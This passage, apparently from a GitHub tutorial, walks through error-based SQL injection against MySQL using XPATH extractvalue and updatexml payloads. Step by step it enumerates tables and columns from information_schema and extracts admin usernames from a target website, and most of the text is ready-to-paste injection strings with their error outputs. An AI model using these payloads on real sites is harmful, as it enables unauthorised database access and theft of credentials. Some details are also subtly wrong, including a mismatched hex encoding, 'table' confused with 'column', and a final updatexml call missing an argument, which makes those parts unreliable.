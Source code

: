Output error:

> XPATH SYNTAX ERROR: '**AUX_db**'35

**Retrieving tables**

Retrieve the first table:

-Using XPATH extractvalue:  
`and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))-- -`

-Using XPATH updatexml:  
`and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),null)-- -`

Output error:

> XPATH SYNTAX ERROR: '**AUX_column1**'35

Retrieve the second table (_NOTE:_ Replace the bold number with bigger number to retrieve the other table [limit **0**,1]. For example, number 0 will retrieve the 1st table, number 1 will do the 2nd column, number 2 will do the 3nd column and so on:

-Using XPATH extractvalue:  
`and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 1,1)))-- -`

-Using XPATH updatexml:  
`and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 1,1)),null)-- -`

Output error:

> XPATH SYNTAX ERROR: '**AUX_column2**'35

**Retrieving columns**

First, convert database and table's name into 0xHEX value:

```
database: AUX_db -> 0xa4155585f6462
table: AUX_column1 -> 0x4155585f636f6c756d6e31
```

-Using XPATH extractvalue:  
`and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=0x4155585f6462 and table_name=0x4155585f636f6c756d6e31 limit 0,1)))-- -`

-Using XPATH updatexml:  
`and updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_schema=0x4155585f6462 and table_name=0x4155585f636f6c756d6e31 limit 0,1)),null)-- -`

Output error:

> XPATH SYNTAX ERROR: '**admin_username**'35

**Retrieving data inside columns**

Before using the following 2 queries, make sure you replace the values with your correct values you got from the website:

-Using XPATH extractvalue:  
`and extractvalue(0x0a,concat(0x0a,(select concat(admin_username) from AUX_db.AUX_column1 limit 0,1)))`

-Using XPATH updatexml:  
`and updatexml(0x0a,concat(0x0a,(select concat(admin_username) from AUX_db.AUX_column1 limit 0,1)))`